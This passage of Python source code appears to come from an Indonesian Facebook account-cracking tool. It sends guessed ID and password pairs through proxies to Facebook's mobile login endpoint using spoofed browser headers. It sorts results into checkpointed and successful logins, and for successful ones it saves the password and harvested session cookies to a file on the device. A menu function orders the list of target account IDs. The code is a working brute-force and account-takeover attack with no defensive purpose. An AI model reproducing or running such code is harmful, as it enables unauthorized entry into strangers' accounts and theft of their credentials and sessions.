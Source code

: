 			"referer": "https://free.facebook.com/v8.0/dialog/oauth?response_type=code%2Cgranted_scopes&client_id=1239138353201716&redirect_uri=https%3A%2F%2Fkachishop-d0c3a.firebaseapp.com%2F__%2Fauth%2Fhandler&state=AMbdmDmDaplWH_DdoV_W4QQTmWmecz1GxWXAlj2cdr_Vf_0aKRi-oWe-Z3FTiIj8pa4JD342zNeLW91aHp12LY9dOYb8tOPKOtsEllaj3JYdF79-cf8Wr-OPLhAn7Zq1LeUfJWdCxX2mAPKVYOG0CChDNxiBnmVCUG3LGCJ3sCTSc1Eb5dZseFVZe2lUqc6Yzz92V58Ki3TvYM7HjC_421qwGmMHJNi0xIaeVA917YCkm8d-wMthO_lSm3eIQPryPnbreRYgONBzhtx692MYCYA3_6dPlkm70JVkIuHGHRiJ98KokSMQRhxjZJCAp_GbKVMDXvSWm0ZtdYR5CI4UZgrB&scope=public_profile%2Cemail&display=popup&ret=login&fbapp_pres=0&logger_id=087a364c-3d69-45b4-a55b-047dae50317c&tp=unspecified",
			"accept-encoding": "gzip, deflate br",
			"accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
			}
			po = ses.post('https://m.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				#print(f'\r└── {kun}{idf}|{pw}\n{xxx}└── {mer}{ua}{xxx}')
				#open('/sdcard/AKUN-CP/'+cph,'a').write(idf+'|'+pw+'\n')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r└── {hijo}{idf}|{pw}|{kuki}\n{xxx}└── {hijo}{ua}{xxx}')
				open('/sdcard/AKUN-OK/'+okh,'a').write(idf+'|'+pw+'|'+kuki+'\n')
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			waktu(31)
	loop+=1
###----------[ ATUR SBLUM KREK ]----------###
def atur_dulu():
	print(f'{xxx}─────────────────────────────')
	print('└── 1. akun baru')
	print('└── 2. akun acak')
	print('└── 3. akun lama')
	aturid = input(f'{xxx}└── : ')
	if aturid in ['1','01']:
		xbaru=[]
		for baru in sorted(id):
			xbaru.append(baru)
		bkp=len(xbaru)
		bkpp=(bkp-1)
		for miyabi in range(bkp):
			id2.append(xbaru[bkpp])
			bkpp -=1
	elif aturid in ['2','02']:
		for acak in id:
			xnxx = random.randint(0,len(id2))
			id2.insert(xnxx,acak)
	elif aturid in ['3','03']:
		for akunlama in sorted(id):
			id2.append(akunlama)
	else:
		baz_anim(f'{puti}└──{mer} pilih yang bener{xxx}')
		waktu(1)
		atur_dulu()
		exit()
		
